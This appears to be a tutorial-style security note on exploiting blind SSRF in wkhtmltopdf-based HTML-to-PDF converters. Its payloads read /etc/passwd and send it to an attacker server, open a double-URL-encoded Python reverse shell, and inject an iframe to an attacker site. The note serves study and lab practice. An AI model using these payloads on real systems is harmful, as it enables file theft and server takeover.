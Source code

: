 Some websites, allows their users to generate a PDF based on the input they have provided.
## Data Exfiltration with Blind SSRF
In the following example scenario, a website accepts a `.html` input via file upload, which then converts the said HTML file into a PDF.

1. First let's confirm that a SSRF vulnerability exists by creating an `index.html` file that we will use to house our payload and upload it into the web application.
```html
<!DOCTYPE html>
<html>
	<body>
		<h1>Hello, World!</h1>
		<img src="http://<OUR IP>:PORT/x?=viaimgtag"/>
	</body>
</html>
```
2. For simplicity, we will use a Netcat listener to test for Blind SSRF.
```bash
nc -nvlp 4444
```
3. After awhile, we will see a response to our Netcat listener.
```bash
connect to [10.10.14.253] from (UNKNOWN) [10.129.155.177] 37124
GET /?x=testing HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: 10.10.14.253:4444
```
By inspecting the request, we notice `wkhtmltopdf` in the User-Agent. If we browse [wkhtmltopdf's downloads webpage](https://wkhtmltopdf.org/downloads.html), the below statement catches our attention:

`Do not use wkhtmltopdf with any untrusted HTML – be sure to sanitize any user-supplied HTML/JS; otherwise, it can lead to the complete takeover of the server it is running on! Please read the project status for the gory details.`

This means we can execute JavaScript, this widens our attack surface and gives us more opportunity to escalate the attack.
### Read Local File or Gain RCE using JavaScript Payload
We will now modify our `index.html` file to use JavaScript and read a local file inside the web server to exfiltrate data. We can use the following payload for this task:
```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```

Additionally, we can also use this technique to gain remote code execution (RCE) into the web server using the following payload:
```html
<html>
    <body>
        <b>Reverse Shell via Blind SSRF</b>
        <script>
        var http = new XMLHttpRequest();
        http.open("GET","http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=export%2520RHOST%253D%252210.10.14.253%2522%253Bexport%2520RPORT%253D4444%253Bpython3%2520-c%2520%2527import%2520sys%252Csocket%252Cos%252Cpty%253Bs%253Dsocket.socket%2528%2529%253Bs.connect%2528%2528os.getenv%2528%2522RHOST%2522%2529%252Cint%2528os.getenv%2528%2522RPORT%2522%2529%2529%2529%2529%253B%255Bos.dup2%2528s.fileno%2528%2529%252Cfd%2529%2520for%2520fd%2520in%2520%25280%252C1%252C2%2529%255D%253Bpty.spawn%2528%2522%252Fbin%252Fsh%2522%2529%2527", true); 
        http.send();
        http.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
    </body>
</html>
```
> Note: The payload is URL encoded twice. Utilise [revshells.com](https://revshells.com) for different shell payloads.
## SSRF Chain with XSS
If these inputs are non-sanitized, this can lead to a SSRF by chaining it with a [Cross Site Scripting](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FIntroduction) (XSS) attack.

Usual pre-requisite for an attack like this is for the website to be vulnerable from Cross Site Scripting (XSS). For example, a target website generates an invoice that includes your full name in it. You can use the following payload as your full name: `<iframe src="http://attacker-website.com" width="400" height="400">` which then a PDF generator library would take and generate a PDF and executing the `iframe` code an attacker has provided.
